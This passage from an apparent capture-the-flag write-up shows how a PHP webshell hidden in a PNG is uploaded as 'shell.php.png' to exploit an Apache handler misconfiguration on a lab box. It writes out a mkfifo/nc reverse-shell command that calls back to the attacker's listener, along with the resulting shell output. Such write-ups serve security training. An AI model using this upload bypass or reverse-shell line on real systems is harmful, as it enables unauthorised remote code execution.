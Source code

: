 
I can run `file` on it to make sure it still matches a mime type of PNG:

    
    
    root@kali# file shell.png 
    shell.php.png: PNG image data, 421 x 210, 8-bit/color RGBA, non-interlaced
    

### Upload Webshell

I could upload my file as `shell.png`. But on visiting it, I just get back a
busted image:

![1566725870104](https://0xdfimages.gitlab.io/img/1566725870104.png)

That’s because the server isn’t configured to handle `.png` files with the php
interpreter. I spent a long time looking for logic errors in the upload php
source that would let me get something named `shell.php` onto Networking. Then
I tried something I knew wouldn’t work, and it did: uploaded as
`shell.php.png`. When I do, it shows as broken in the gallery:

![1566725986450](https://0xdfimages.gitlab.io/img/1566725986450.png)

When I view `/uploads/10_10_14_5.php.png`, I see the strings of the image and
the php executing in the middle:

![1566726099763](https://0xdfimages.gitlab.io/img/1566726099763.png)

I’ll add `?cmd=id` to the end:

![1566726130362](https://0xdfimages.gitlab.io/img/1566726130362.png)

### What? Why?

I was very confused at this point. It turns out this is a configuration error
in how the web server is deciding what to execute as code as opposed to return
a static file or an image. Details are
[here](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-
AddHandler). The standard case is that php will only process files ending in
`.php`. The configuration error here means that as long as `.php` is somewhere
in the name it will process as php. I’ll look into the configuration a bit
more in Beyond Root.

### Shell

To get a real shell, I just visited
`/uploads/10_10_14_5.php.png?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E&1|nc%2010.10.14.7%20443%20%3E/tmp/f`:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:53204.
    sh: no job control in this shell
    sh-4.2$ id
    uid=48(apache) gid=48(apache) groups=48(apache)
    